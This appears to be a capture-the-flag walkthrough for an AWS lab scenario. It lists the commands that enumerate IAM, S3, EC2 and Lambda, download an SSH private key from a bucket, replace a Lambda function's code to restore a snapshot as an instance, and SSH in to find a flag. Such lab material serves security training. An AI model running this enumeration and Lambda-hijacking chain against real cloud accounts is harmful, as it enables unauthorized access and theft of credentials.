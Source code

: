 
## Reconnaissance

1. Assume the "ls-user" role
   ```
   aws configure --profile ls-user
   ```

2.  List IAM users:
   ```
   aws iam list-users
   ```

3. List policies attached to the "ls-user":
   ```
   aws iam list-attached-user-policies --user-name ls-user
   ```

4. List available EC2 snapshots:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-snapshots --owner-ids self
   ```

5. List available Lambda functions:
   ```
   aws --profile ls-user --region us-east-1 lambda list-functions
   ```

6. List S3 buckets and their contents:
   ```
   aws --profile ls-user --region us-east-1 s3 ls
   ```

   ```
   aws --profile ls-user --region us-east-1 s3 ls s3://<bucket-name>
   ```

7. Download the SSH key from the S3 bucket:
   ```
   aws --profile ls-user --region us-east-1 s3 cp s3://<bucket-name>/ssh_key.pem ./ssh_key.pem
   chmod 400 ssh_key.pem
   ```

8. List AMIs:
```
aws --profile ls-user --region us-east-1 ec2 describe-images --owners self
```

9. List subnets:
```
aws --profile ls-user --region us-east-1 ec2 describe-subnets
```

10. List security groups:
```
aws --profile ls-user --region us-east-1 ec2 describe-security-groups
```


## Lambda Function Invocation

1. Download the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda get-function --function-name RestoreSnapshot --query 'Code.Location' --output text | xargs curl -o lambda_function.zip
   ```

2. Update the Lambda function code with the necessary resources discovered during reconnaissance (snapshot ID, AMI ID, subnet ID, security group ID).

3. Zip the updated Lambda function code:
   ```
   zip lambda_function.zip lambda_function.py
   ```

4. Update the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda update-function-code --function-name RestoreSnapshot --zip-file fileb://lambda_function.zip
   ```

5. Invoke the Lambda function:
   ```
   aws --profile ls-user --region us-east-1 lambda invoke --function-name RestoreSnapshot output.txt
   ```


## Accessing the Restored EC2 Instance

1. List running EC2 instances:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-instances --filters "Name=instance-state-name,Values=running"
   ```

2. SSH into the restored EC2 instance:
   ```
   ssh -i ssh_key.pem ec2-user@<public-ip>
   ```

3. Find the flag inside the EC2 instance to complete the scenario.

4. Terminate the EC2 instance once you are done (The "destroy" command will not remove the instance)
   ```
   aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
   ```





